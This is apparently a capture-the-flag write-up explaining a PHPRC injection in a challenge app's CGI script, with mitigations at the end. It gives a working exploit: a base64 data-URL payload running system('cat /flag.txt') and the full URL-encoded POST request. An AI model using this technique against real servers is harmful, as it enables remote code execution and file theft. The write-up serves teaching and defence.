 Write-Up for the Exploit Script:

# Lyra's Tavern Exploit Explanation

## Vulnerability Overview

The Lyra's Tavern application contains a critical vulnerability in the `app.cgi` script that allows an attacker to:

1. Override PHP configuration settings by controlling the PHPRC environment variable
2. Execute arbitrary PHP code via the `auto_prepend_file` directive
3. Read sensitive files from the server, including the flag file

## How the Vulnerability Works

1. The `app.cgi` script accepts a `PHPRC` parameter from user input:
   ```php
   $phprc = isset($_REQUEST['PHPRC']) ? $_REQUEST['PHPRC'] : null;
   ```

2. It then sets this as an environment variable that controls PHP's configuration:
   ```php
   putenv("PHPRC=" . $phprc);
   ```

3. By setting `PHPRC=/dev/fd/0`, we can make PHP read its configuration from standard input
   - `/dev/fd/0` is a special file that corresponds to stdin

4. The script also accepts a `data` parameter that gets passed to PHP via stdin:
   ```php
   $cmd = "printf \"%b\" " . escapeshellarg($data);
   $cmd = $cmd . " | php /www/application/config.php";
   ```

5. We can inject PHP configuration directives through this `data` parameter:
   - `allow_url_include=1` - Enables inclusion of remote files via URL
   - `auto_prepend_file=data://...` - Makes PHP execute our code before any script

## The Exploit Step by Step

1. **Create a PHP payload** that will read the flag file:
   ```php
   <?php system("cat /flag.txt"); ?>
   ```

2. **Encode the payload as a base64 data URL**:
   ```
   data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWcudHh0Iik7ID8+
   ```

3. **Format the request** with:
   - URL: `http://<target>/cgi-bin/app.cgi?PHPRC=/dev/fd/0`
   - POST data: `data=allow_url_include%3D1%0Aauto_prepend_file%3D%22data%3A%2F%2Ftext%2Fplain%3Bbase64%2CPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWcudHh0Iik7ID8%2B%22`

4. When this request is processed:
   - PHP reads its configuration from our provided data
   - The `auto_prepend_file` directive makes it execute our payload
   - Our payload runs `cat /flag.txt` and outputs the flag

## Why This Works

The vulnerability exists because:

1. The application allows user control of the `PHPRC` environment variable
2. It then executes PHP with this configuration
3. The `/dev/fd/0` trick allows us to supply both the configuration and the execution data in a single request
4. PHP's `auto_prepend_file` directive lets us execute code before any script runs

## Mitigation

To prevent this vulnerability:

1. Never allow users to control the `PHPRC` environment variable
2. Use proper input validation for all user-supplied data
3. Disable dangerous PHP directives like `allow_url_include`
4. Run PHP with restricted permissions
5. Implement proper filesystem access controls
